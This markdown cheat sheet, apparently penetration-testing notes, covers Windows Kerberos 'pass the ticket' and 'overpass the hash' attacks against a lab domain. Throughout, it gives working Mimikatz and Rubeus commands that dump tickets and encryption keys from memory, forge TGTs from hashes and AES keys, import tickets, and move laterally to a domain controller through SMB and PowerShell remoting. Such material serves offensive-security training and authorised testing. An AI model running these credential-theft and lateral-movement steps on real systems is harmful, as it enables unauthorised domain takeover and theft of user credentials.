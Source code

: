 ```yaml
---
title: Pass the Ticket Windows
category: Post-Exploitation
tags: [ptt, credential, hunting, tgt, ticket, kerberos]
tools: ['mimikatz', 'Rubeus', 'evil-winrm', 'netexec', 'impacket']
---
```


# Pass the Ticket Windows

## Harvesting Kerberos tickets from Windows

### [Mimikatz](https://github.com/ParrotSec/mimikatz) - Export tickets

Harvest all tickets from a system. The result is a list of files with the extension `.kirbi`, which contain the tickets.

```cmd
privilege::debug
sekurlsa::tickets /export
```

> The tickets that end with `$` correspond to the computer  account, which needs a ticket to interact with the Active Directory.  User tickets have the user's name, followed by an `@` that separates the service name and the domain, for example: `[randomvalue]-username@service-domain.local.kirbi`. If you pick a ticket with the service krbtgt, it corresponds to the TGT of that account.

### [Rubeus](https://github.com/GhostPack/Rubeus) - Export tickets

Export tickets using `Rubeus` and the option `dump`. This option can be used to dump all tickets (run as local administrator).

```cmd
# Tickets dumped will be in Base64
Rubeus.exe dump /nowrap
```

---

## Pass the Key aka. OverPass the Hash

[Example for OverPass the Hash](https://github.com/GhostPack/Rubeus#example-over-pass-the-hash)

### Mimikatz - Extract Kerberos keys

Forging tickets the users hash is needed; use mimikatz to dump encrytion keys

```cmd
mimikatz # privilege::debug
sekurlsa::ekeys
```

### Mimikatz

With the `AES256_HMAC` and `RC4_HMAC` keys, perform the OverPass the Hash.

```cmd
# This will create a new cmd.exe window 
sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f
exit
```

### Rubeus

Forge a ticket using `Rubeus`, use the module `asktgt` with the username, domain, and hash which can be `/rc4`, `/aes128`, `/aes256`, or `/des`. 

```cmd
Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap
exit
dir \\DC01.inlanefreight.htb\c$
```

> Mimikatz requires administrative rights to perform the Pass the Key/OverPass the Hash attacks, while Rubeus doesn't.

---

## Pass the Ticket

### Rubeus

With some Kerberos tickets, use them to move laterally within an environment.

```cmd
# Standard method
Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt

# With mimikatz ticket
Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
exit
```

> Another way is to import the ticket into the current session using the `.kirbi` file from the disk.

Base64 Format

```cmd
# Convert the ticket
[Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))

# Pass the ticket
Rubeus.exe ptt /ticket:<ticket>
exit
dir \\DC01.inlanefreight.htb\c$
```

### Mimikatz

```cmd
mimikatz # kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"
exit
dir \\DC01.inlanefreight.htb\c$
```

> Use the Mimikatz module `misc` to launch a new command prompt window with the imported ticket using the `misc::cmd` command.

---

## PowerShell Remoting with Pass the Ticket

### Mimikatz

Use Mimikatz to import our ticket and then open a PowerShell console and connect to the target machine. Open `cmd.exe` and execute `mimikatz.exe`, import the ticket collected using `kerberos::ptt`. Once the ticket is imported into the `cmd.exe` session, launch a PowerShell from the same `cmd.exe` and use the command `Enter-PSSession` to connect to the target machine.

```cmd
# Import
kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"

# Launch PS and connect
powershell
Enter-PSSession -ComputerName DC01
```

### Rubeus

Rubeus has the option `createnetonly`, which creates a sacrificial process/logon session ([Logon type 9](https://eventlogxp.com/blog/logon-type-what-does-it-mean/)). Request a new TGT with the option `/ptt`

```cmd
# Open new cmd window
Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show

# Import tick for lateral movement
Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt

powershell
Enter-PSSession -ComputerName DC01
```
